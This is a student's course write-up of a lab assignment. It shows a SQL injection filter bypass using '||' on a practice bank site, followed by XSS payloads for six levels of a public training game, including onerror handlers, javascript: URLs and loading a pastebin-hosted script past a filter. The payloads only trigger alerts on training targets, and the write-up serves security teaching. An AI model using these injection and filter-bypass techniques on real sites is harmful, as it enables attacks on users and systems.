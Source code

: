 # Crypto II Writeup

Name: Lawrence Byun
Section: 0101

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Lawrence Byun

## Assignment Writeup

### Part 1 (40 Pts)
When going to all the links I noticed the URL gave something like SQL. When I tried ```http://1337bank.money:5000/item?id=2' or '1'='1 ``` I got the message ``` ERROR: ATTEMPTED SQL INJECTION DETECTED ``` 
After some Googling I found that you could use ```||``` instead of ```OR```. So I tried  ``` http://1337bank.money:5000/item?id=2' || '1'='1 ``` and got the flag 

CMSC389R-{y0u_ar3_th3_SQ1_ninj@}


### Part 2 (60 Pts)


Level 1: 
They gave an vulnerable input field. I entered ``` <script> alert("Hello") </script> ```

Level 2: 
Googled ```html onerror``` attribute. Entered ```<img src = "nothing.jpg" onerror = alert("Hello")>``` into the message box and posted. Cannot load the img so it executes the javascript.

Level 3: 
Looked at the source code. Broke the quotes in the img tag so it would read ```<img src='/static/level3/cloud3'.jpg' />``` instead of ```<img src='/static/level3/cloud3.jpg' />``` like they wanted. Used the onerror attribute from the previous to make the img tag execute javascript. 
Entered ```' onerror = 'alert("Heelo")'``` into the URL.  ```https://xss-game.appspot.com/level3/frame#3' onerror = 'alert("Heelo")'```	

Level 4: 
Look at the hints. Saw that the startTimer function was being called from img tag. Tried to casue an error in the img tag so it would execute onerror

```'); onerror = alert('hello```

Level 5: 
On signup page ```https://xss-game.appspot.com/level5/frame/signup?next=confirm``` next is set to confirm. 
In signup.html next is used in the a href. You can execute Javascript in a href by using ```<a href="javascript:alert('Hello');">```

Go to the URL ```https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('Hello')``` and click next

Level 6: 
Hosted my code on pastepin. https://pastebin.com/raw/6W7W8kQJ
Tried loading a file. Got the error saying I cannot load URL containing "https". So I tired "HTTPS". 
```https://xss-game.appspot.com/level6/frame#HTTPS://pastebin.com/raw/6W7W8kQJ```